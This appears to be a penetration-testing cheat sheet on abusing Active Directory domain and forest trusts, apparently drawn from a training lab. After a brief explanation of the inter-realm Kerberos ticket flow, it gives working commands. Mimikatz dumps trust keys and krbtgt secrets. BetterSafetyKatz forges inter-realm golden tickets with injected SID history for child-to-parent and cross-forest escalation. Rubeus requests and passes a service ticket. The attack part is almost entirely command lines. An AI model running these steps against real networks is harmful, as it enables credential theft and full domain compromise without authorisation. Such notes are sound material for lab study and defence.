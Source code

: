 # Trusts

## Trust Flow

The Diagram below shows how Client from trusted domain can ask for access to other Domain's service.\


We can see that in order to allow access to the service hosted on Domain B, a TGT is returned within a TGS-REP signed with the Inter-Realm Trust Key.

<img src="../../.gitbook/assets/file.excalidraw (2).svg" alt="" class="gitbook-drawing">

## Exploitation

It is possible to exploit the TGS REQ (marked red in the diagram above) by forging new TGT using the trust key.

### Get the trust key

The trust key is required to forge the Inter-Realm TGT.

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

### Forge the Inter-Realm TGT

Note that krbtgt can be used instead of the trust key.

{% code overflow="wrap" %}
```powershell
# Child to parent 
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"

# Using krbtgt hash
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Across Forest
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit" 
```
{% endcode %}

| Options                            |                                                  |
| ---------------------------------- | ------------------------------------------------ |
| <pre><code>/domain:
</code></pre>  | FQDN of the current domain                       |
| <pre><code>/sid:
</code></pre>     | SID of the current domain                        |
| <pre><code>/sids
</code></pre>     | SID to be injected to the SID history            |
| <pre><code>/rc4:
</code></pre>     | RC4 of the trust key                             |
| <pre><code>/krbtgt:
</code></pre>  | krbtgt hash can be used instead of the Trust Key |
| <pre><code>/user:
</code></pre>    | User to impersonate                              |
| <pre><code>/service:
</code></pre> | Target service in the parent domain              |
| <pre><code>/target:
</code></pre>  | FQDN of the parent domain                        |
| <pre><code>/ticket
</code></pre>   | Path to save the ticket                          |

### Request the TGS and pass it

{% code overflow="wrap" %}
```powershell
Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorpdc.moneycorp.local /ptt
```
{% endcode %}
